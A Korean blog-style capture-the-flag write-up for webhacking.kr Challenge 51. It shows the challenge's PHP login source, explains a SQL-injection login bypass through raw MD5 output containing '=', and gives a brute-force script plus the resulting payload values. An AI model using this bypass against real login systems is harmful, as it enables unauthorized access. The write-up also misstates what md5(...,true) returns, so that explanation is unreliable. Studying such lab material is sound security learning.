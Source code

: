 #51
===



로그인 페이지가 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNDUg/MDAxNTc5MzUwMzMxMzMx.MUAlmp7cW64yuZDZxfRTkcp2FbBoGiWEm_WrmYnOXC0g.nP0tOnX9R8oV4Kh4t2QB0metBZkQdu5e63gp9rjiIzog.JPEG.rlaeoghks823/K-037.jpg?type=w773)

id와 pw에 아무거나쳐봤다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTY5/MDAxNTc5MzUwMzM0MzU4.n8rMYBKzZflnpu_hho8QJMEySTfY-EPUClMacv1faxkg.9FMj9b9VNwrpnyN5xKSmetLp9WcV6wH0Xt8WSIwaEc8g.JPEG.rlaeoghks823/K-038.jpg?type=w773)

wrong이라는 문구가 뜨고 끝이다.

어떤 방식으로 해결해야할지 실마리를 얻기 위해 소스 코드를 봐보았다.

```html,php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 51</title>
<style>
table{ color:lightgreen;}
</style>
</head>
<body bgcolor=black><br><br>
<font color=silver>
<center><h1>Admin page</h1></center>
</font>
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
<br><br><br>
<form method=post>
<table border=0 align=center bgcolor=gray width=200 height=100>
<tr align=center><td>ID</td><td><input type=text name=id></td></tr>
<tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
<font color=silver>
<div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
</font>
</form>
</body>
</html>
```

눈에 띄는 코드는 다음과 같다.

```php
$input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
```

먼저 md5라는 함수에서 pw값을 md5값으로 바꿔준다. 

인자를 true로 주면 16진수 32글자로된 md5 해시값의 문자열을 반환해준다. 

문제를 해결하기 위해 아래와 같은 과정이 필요하다.

pw에 `어떤 값1 = 어떤 값2`라는걸 넣어주면  
pw = 어떤 값1 = 어떤 값2가 된다.

여기서  
pw = 어떤 값1 -> 거짓

어떤 값2도 문자이므로 거짓이다.

따라서 거짓=거짓 으로 인해 pw='{$input_pw}'는 참이 된다.

그래서 md5로 인코딩 했을 때 나오는 값이 '='이 든 값을 찾기 위해서 아래와 같은 코드를 구했다.

```php
<?php
for($i=0;$i<10000000;$i++){
	if(strstr(md5($i,true),"'='")){
		echo ("$i, ");
	}
}
```

이로써 나온 값은 `1839431, 2584670, 2632003, 2998869, 4939073, 5263117, 5273607, 5872358, 7201387, 8930081, 9235566,` 이였고 이중 값 하나를

pw에 넣어주니 문제가 해결되었다.
